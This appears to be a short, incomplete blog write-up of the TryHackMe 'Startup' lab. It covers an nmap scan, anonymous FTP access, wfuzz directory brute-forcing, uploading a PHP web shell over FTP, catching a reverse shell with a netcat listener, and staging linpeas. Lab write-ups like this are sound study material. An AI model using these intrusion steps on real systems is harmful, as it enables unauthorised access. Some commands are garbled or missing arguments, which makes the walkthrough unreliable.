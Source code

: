 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

file is a simple text file that associates IP addresses with hostnames, one line per IP address.

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
  
    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

There are three ports are opened 

FTP login with username is anonymous and password is anonymous.

> ftp startup.thm

<p align="center">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

> get 
> 
> get 

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



